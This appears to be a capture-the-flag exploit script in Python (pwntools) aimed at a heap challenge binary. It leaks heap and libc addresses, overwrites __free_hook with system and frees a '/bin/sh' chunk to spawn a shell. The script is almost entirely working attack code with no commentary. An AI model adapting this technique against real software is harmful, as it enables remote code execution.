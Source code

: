 ```

def show():
    io.recvuntil("> ")
    io.sendline("4")

def leak(addr1, addr2):

    payload = "c"*0xb0 + p64(0x1) + p64(addr1) + p64(addr2) + p64(0x120)
    edit(1, payload)
    change_name("b"*32) 
    show()
    io.recvuntil("Name: ")
    addr = u64(io.recv(6).ljust(8, "\x00"))
    return addr

gdb.attach(io)

io.recvuntil("Enter author name:")
io.sendline("a"*32)

create("a"*0x20, "b"*0x120)
show()
io.recvuntil("Author: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa")
book1_addr = u64(io.recv(6).ljust(8, "\x00"))
print(hex(book1_addr))

create("a"*0x20, "b"*0x21000)
create("/bin/sh\x00\x00\x00\x00\x00\x00\x00\x00\x00", "b"*0x8)

libc_addr = leak(book1_addr+0x70, book1_addr+0xe0) - 0x5bc010
print("libc address: " + hex(libc_addr))

system_addr = libc_addr + libc.symbols["system"]
free_hook = libc_addr + libc.symbols["__free_hook"]

print("system address: " + hex(system_addr))
print("free hook address: " + hex(free_hook))

edit(1, p64(free_hook) + "\x08")

one_gadget = libc_addr + 0x45216

edit(3, p64(system_addr))

delete(3)

io.interactive() 
```
